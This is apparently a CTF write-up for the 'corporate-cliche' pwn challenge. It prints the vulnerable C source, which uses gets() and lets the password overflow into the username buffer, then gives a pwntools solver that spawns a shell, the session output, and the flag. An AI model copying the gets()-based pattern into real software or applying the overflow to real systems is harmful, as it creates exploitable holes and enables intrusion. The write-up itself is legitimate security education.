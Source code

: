 ```yaml
---
layout: writeup
title: corporate-cliche
tags: Pwn
excerpt: "It's time to really push the envelope and go above and beyond! We've got a new challenge for you. Can you find a way to get into our email server?"
---
```


## Description

Dear Raahguu,

It's time to really push the envelope and go above and beyond! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,
Blue Alder

The description then provided the source code and binary, along with an `nc` command to remotely connect to the binary that had the actual flag


## Solution

The source code written in `c` was:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}

```

This code reveals a program where you are prompted for a username, and password. Then if your username and password meet the hardcoded admin credentials, you get remote access to the machine.

The trick with this program though, is that if you enter the username `admin` you get kicked out from the connection, and so cannot just login normally.

The key to this challenge is that the `password` buffer is stored right before the `username` buffer in memory, and the input for the password uses `gets`

`gets` is a depricated way to get user input as it does not have a way to restrict the user's input length, and therefore is liable to have the user do buffer overflow within it, in this case buffer overflow from `password` would go into `username`

So If we enter a username, say `Raahguu` then that username will pass the is `username` `admin` check, and then by inputting a password that overflows its buffer into username, we can overwrite the olf username value of `e` with a new value `admin`

Then if the username is `admin` and the password is `🇦🇩🇲🇮🇳` then we log in as admin and get remote shell to read the flag.

To execute this buffer overflow, we just need to input the password `🇦🇩🇲🇮🇳` which is already 20 bytes long due to the 5 4-byte long characters. As the `password` buffer is `32` bytes long, and we already input `20` we just need to input `12` more bytes. 

Now as the password needs to remain the same, we need to tell the program that our string ends after the 20th byte, which we can do by inputing a null bytes `\x00` and then we just need to input `11` more bytes. Afterwards, we are writing into the `username` buffer and need to pass in `admin` and then another null byte `\x00` to tell the program the username ends there.

Now instead of inputting that all myself, I wrote a python program to do it for me:

```python
# Import Pwn Tools
from pwn import *

# nc values
host = "chal.2025.ductf.net"
port = 30000

# Connect to the remote service
conn = remote(host, port)

# Send username
conn.sendline(b"Raahguu")

# Buffer overflow: actual password + 12 null bytes + "admin" + null byte
password = "🇦🇩🇲🇮🇳".encode("utf-8") + b"\x00"*12 + b"admin" + b"\x00"
conn.sendline(password)

# Give me interactive control
conn.interactive()
```

Running this automates the username and password process, and then gives me control of the nc session once we have a remote shell. Running it gets the following output.

```shell
$ python solver.py
[+] Opening connection to chal.2025.ductf.net on port 30000: Done
[*] Switching to interactive mode
┌──────────────────────────────────────┐
│      Secure Email System v1.337      │
└──────────────────────────────────────┘

Enter your username: Enter your password: -> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
flag.txt
get-flag
pwn
$ cat flag.txt
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
```

And there's the flag `DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}`
